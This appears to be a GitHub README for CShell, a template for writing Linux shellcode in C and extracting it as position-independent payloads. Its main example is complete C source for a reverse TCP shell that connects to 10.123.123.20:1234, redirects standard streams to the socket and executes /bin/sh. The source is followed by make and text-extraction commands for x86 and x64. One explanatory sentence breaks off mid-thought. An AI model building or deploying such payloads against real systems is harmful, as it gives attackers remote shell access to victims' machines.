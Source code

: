 # CShell
-------
### "portable" and rapid Linux shellcode development
Writing platform-specific shellcode is a notoriously tedious feat and requires a working understanding of low level assembly code. Rather than learning assembly syntax for x86, x64, ARM, and whatever god forksaken architecture you're targetting, it'd be a hell of a lot easier to simply write your entire payload in C, compile it with a standard C compiler, extract the `.text` section of the binary, and execute it as positionally independent shellcode.


### Warning
CShell is hugely incomplete... like seriously, only a tiny portion of the syscalls have been implemented for a small number of systems. There are a lot of potential caveats that need to be handled in different platforms, and I'm simply not that diverse of a developer when it comes to low level applications. I'm only providing the general idea and a basic template. Any PRs are more than welcome.


#### Notes:

 - Compiler size optimizations (such as GCC's `-Os`) may re-order functions (including `_start`) so if you use these flags, you may need to manually add a `jmp <offset>` to the beginning of your payload in order to get to the `_start` function.
 - The Makefile provided will compile with `-Os` optimizations excluding function and symbol re-alignment.
 - Your entry point should be called `_start`, not `main`, and may accept as many parameters of any type as you'd like, albeit an uncommon practice with shellcode.
 - You may, of course, utilize struct definitions, unions, enums, and preprocessor constants inside your code, but because it is compiled with `-nostdlib`, you must create your own functions for standard library functions `memset`/`memcpy` can be trivially implemented.
 
 
 ### What's the use case
 
Writing shellcode to perform a specific task can be tedious when targetting multiple platforms. Take, for instance, the simplest reverse TCP shell comprised of creating a socket, connecting to a remote address/port, using `dup2` to copy the `stdin`, `stdout`, and `stderr` file descriptors to the socket, and executing `/bin/sh` for an interactive shell. We could write three separate 


### Step 1: Write your payload

#include "cshell.h"

#define HTONS(A) ((((uint16_t)(A) & 0xff00) >> 8) | (((uint16_t)(A) & 0x00ff) << 8))
#define OCTETS(a, b, c, d) (uint32_t)((d << 24) | (c << 16) | (b << 8) | (a))

    /* An example CShell payload */

    int _start();

    int _start()
    {
        int sockfd, i;
        unsigned char filename[] = {'/', 'b', 'i', 'n', '/', 's', 'h', '\0'};
        ssize_t status, err;
        struct in_addr sock_addr;
        struct sockaddr_in sock_srv;

        status = cs_socket(AF_INET, SOCK_STREAM, 0);
        if(status < 0)
        {
            goto cleanup;
        }
        sockfd = status;

        sock_addr.s_addr = OCTETS(10, 123, 123, 20);

        sock_srv.sin_family = AF_INET;
        sock_srv.sin_port = HTONS(1234);
        sock_srv.sin_addr = sock_addr;

        status = cs_connect(sockfd, &sock_srv, sizeof(sock_srv));
        if(status < 0)
        {
            goto cleanup;
        }

        for(i = 0; i <= 2; ++i)
        {
            cs_dup2(sockfd, i);
        }

        cs_execve(filename, NULL, NULL);
        status = 0;

    close_cleanup:
        cs_close(sockfd);

    cleanup:
        if(status < 0)
        {
            err = cs_err(status);
        }
        else
        {
            err = 0;
        }

        cs_exit(err);
    }

### Step 2: Compile your payload

Assuming the above source file is saved as `cshell.c`, you can ue the `Makefile` inside the project.

    make x86 && make x64
    
### Step 3: Extract the .text section

    ./gettext.sh cshell-x86
    ./gettext.sh cshell-x64

The output can then be saved in `runshellcode.c` (be sure to compile it with -m32 when using x86) in order to test execution.
